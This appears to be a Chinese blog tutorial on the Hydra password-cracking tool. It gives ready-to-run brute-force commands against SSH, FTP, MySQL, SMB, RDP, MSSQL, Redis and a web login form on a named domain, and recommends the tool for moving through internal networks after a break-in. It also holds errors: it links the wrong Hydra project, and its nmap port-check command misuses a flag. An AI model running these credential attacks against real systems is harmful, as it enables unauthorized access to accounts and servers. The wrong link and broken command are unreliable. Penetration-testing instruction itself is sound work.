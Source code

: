 ```yaml
---
layout: post
title: hydra基础使用
categories: 安全工具
description: hydra基础使用
keywords: hydra基础使用
---
```


hydra基础使用

### 1、hydra/九头蛇简介

hydra 是一个端口穷举服务器的工具。

网址：`https://github.com/facebookresearch/hydra` 或者 `https://hydra.cc/`

kali里面就有

它支持的协议很多

```txt
adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post}
http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s]
ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener
oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap
rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak
telnet[s] vmauthd vnc xmpp
```

使用：

```bash
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]`
```

使用参数说明

```txt
-R：继续从上一次进度接着破解
-S：大写，采用 SSL 链接
-s <PORT>：小写，可通过这个参数指定非默认端口
-l <LOGIN>：指定破解的用户，对特定用户破解
-L <FILE>：指定用户名字典
-p <PASS>：小写，指定密码破解，少用，一般是采用密码字典
-P <FILE>：大写，指定密码字典
-e <ns>：可选选项，n：空密码试探，s：使用指定用户和密码试探
-C <FILE>：使用冒号分割格式，例如“登录名:密码”来代替-L/-P 参数
-M <FILE>：指定目标列表文件一行一条
-o <FILE>：指定结果输出文件
-f：在使用-M 参数以后，找到第一对登录名或者密码的时候中止破解
-t <TASKS>：同时运行的线程数，默认为 16
-w <TIME>：设置最大超时的时间，单位秒，默认是 30s
-v / -V：显示详细过程
server：目标 ip
service：指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp 等等
OPT可选项
```

### 2、使用

例子：

```bash
hydra -l user -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
hydra -l admin -p password ftp://[192.168.0.0/24]/
hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

可以在渗透进入内网了之后，在内网里面访问其他服务或者服务器使用。

下面都是靶机测试的截图，仅供参考学习。

#### 2.1 穷举ssh服务

ssh服务：专门为远程登录会话和其他网络服务(例如:rsync,ansible)提供的安全性协议

```python
hydra -L users.txt -P password.txt -t 1 -vV -e ns 192.168.1.104 ssh -o ssh.txt -f

"""
-L 用户字典文件 
-P 密码字典文件
-t 线程数 
-vV 详细信息 
-e ns 使用空口令使用指定用户和密码试探 
192.168.1.104 你要穷举的 ip 
ssh 是服务
-o 保存文件
-f 如果找到马上中断扫描
"""
```

ssh服务的两种连接写法

1. ssh://192.168.1.104
2. 192.168.1.104 ssh

查看SSH服务靶机的端口是否打开

```bash
Nmap -P 22 192.168.3.12
```

端口开放，可以进行爆破

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV -t 1 -f 192.168.3.12 ssh
```

![穷举SSH](/images/blog/img/hydra/ssh.png)

#### 2.2 穷举FTP服务

FTP服务：FTP是一种上传和下载用的软件。用户可以通过它把自己的PC机与运行FTP协议的服务器相连，访问服务器上的程序和信息。

```bash
hydra -l c5moon -P /home/kali/top100password.txt -e ns -vV 192.168.3.15 ftp
```

![穷举FTP](/images/blog/img/hydra/ftp.png)

#### 2.3 穷举MYSQL服务

MySQL：数据库

```bash
hydra -l root -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 mysql
```

![穷举MYSQL](/images/blog/img/hydra/mysql.png)

#### 2.4 穷举smb服务

smb服务：用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居由它实现。

```bash
hydra -l administrator -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 smb -o smb.txt
```

![穷举smb](/images/blog/img/hydra/smb.png)

还可以批量穷举

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt smb  -o smb.txt
```

![批量穷举smb](/images/blog/img/hydra/smb2.png)

#### 2.5 穷举rdp服务

rdp服务：远程桌面

```bash
hydra -L user.txt -P /home/kali/top100password.txt -M ip.txt rdp  -o rdp.txt
```

![批量穷举rdp](/images/blog/img/hydra/rdp.png)

#### 2.5 穷举HTTP服务

```bash
hydra -l admin -P top100password.txt -vV -f www.c1moon.com http-post-form "/admin/index.php:user=^USER^&ps=^PASS^&action=login:login-error"
```

![批量穷举HTTP](/images/blog/img/hydra/http.png)

#### 2.6 穷举mssql服务

```bash
hydra -l sa -P /home/kali/top100password.txt -e ns -vV 192.168.3.11 mssql
```

![批量穷举HTTP](/images/blog/img/hydra/mssql.png)

#### 2.6 穷举redis服务

```bash
hydra -P /home/kali/top100password.txt -e ns -vV  -f 192.168.3.11 redis
```

![批量穷举HTTP](/images/blog/img/hydra/redis.png)
